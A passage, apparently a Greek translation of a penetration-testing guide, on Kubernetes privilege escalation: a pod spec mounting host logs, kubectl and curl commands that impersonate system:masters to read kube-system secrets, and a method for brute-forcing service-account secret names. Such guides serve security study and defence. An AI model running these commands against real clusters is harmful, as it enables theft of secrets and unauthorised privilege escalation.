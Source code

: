 ```yaml
persistentVolumeClaim:
claimName: task-pv-claim-vol
containers:
- name: task-pv-container
image: ubuntu:latest
command: [ "sh", "-c", "sleep 1h" ]
volumeMounts:
- mountPath: "/hostlogs"
name: task-pv-storage-vol
```
### **Υποκρισία προνομιακών λογαριασμών**

Με ένα [**προνόμιο υποκρισίας χρήστη**](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#user-impersonation), ένας επιτιθέμενος θα μπορούσε να υποκριθεί έναν προνομιακό λογαριασμό.

Απλά χρησιμοποιήστε την παράμετρο `--as=<username>` στην εντολή `kubectl` για να υποκριθείτε έναν χρήστη, ή `--as-group=<group>` για να υποκριθείτε μια ομάδα:
```bash
kubectl get pods --as=system:serviceaccount:kube-system:default
kubectl get secrets --as=null --as-group=system:masters
```
Ή χρησιμοποιήστε το REST API:
```bash
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" \
-H "Impersonate-Group: system:masters"\
-H "Impersonate-User: null" \
-H "Accept: application/json" \
https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```
### Listing Secrets

Η άδεια να **καταγράψει μυστικά θα μπορούσε να επιτρέψει σε έναν επιτιθέμενο να διαβάσει πραγματικά τα μυστικά** αποκτώντας πρόσβαση στο REST API endpoint:
```bash
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```
### Ανάγνωση ενός μυστικού – βίαιη επίθεση σε αναγνωριστικά token

Ενώ ένας επιτιθέμενος που κατέχει ένα token με δικαιώματα ανάγνωσης απαιτεί το ακριβές όνομα του μυστικού για να το χρησιμοποιήσει, σε αντίθεση με το ευρύτερο προνόμιο _**καταγραφής μυστικών**_, υπάρχουν ακόμα ευπάθειες. Οι προεπιλεγμένοι λογαριασμοί υπηρεσιών στο σύστημα μπορούν να απαριθμηθούν, καθένας από τους οποίους σχετίζεται με ένα μυστικό. Αυτά τα μυστικά έχουν μια δομή ονόματος: ένα στατικό πρόθεμα ακολουθούμενο από έναν τυχαίο αλφαριθμητικό κωδικό πέντε χαρακτήρων (εξαιρουμένων ορισμένων χαρακτήρων) σύμφωνα με τον [κώδικα πηγής](https://github.com/kubernetes/kubernetes/blob/8418cccaf6a7307479f1dfeafb0d2823c1c37802/staging/src/k8s.io/apimachinery/pkg/util/rand/rand.go#L83).

Ο κωδικός δημιουργείται από ένα περιορισμένο σύνολο 27 χαρακτήρων (`bcdfghjklmnpqrstvwxz2456789`), αντί για το πλήρες αλφαριθμητικό εύρος. Αυτός ο περιορισμός μειώνει τον συνολικό αριθμό πιθανών συνδυασμών σε 14,348,907 (27^5). Ως εκ τούτου, ένας επιτιθέμενος θα μπορούσε να εκτελέσει μια βίαιη επίθεση για να deduce τον κωδικό σε λίγες ώρες, ενδεχομένως οδηγώντας σε κλιμάκωση προνομίων μέσω της πρόσβασης σε ευαίσθητους λογαριασμούς υπηρεσιών.
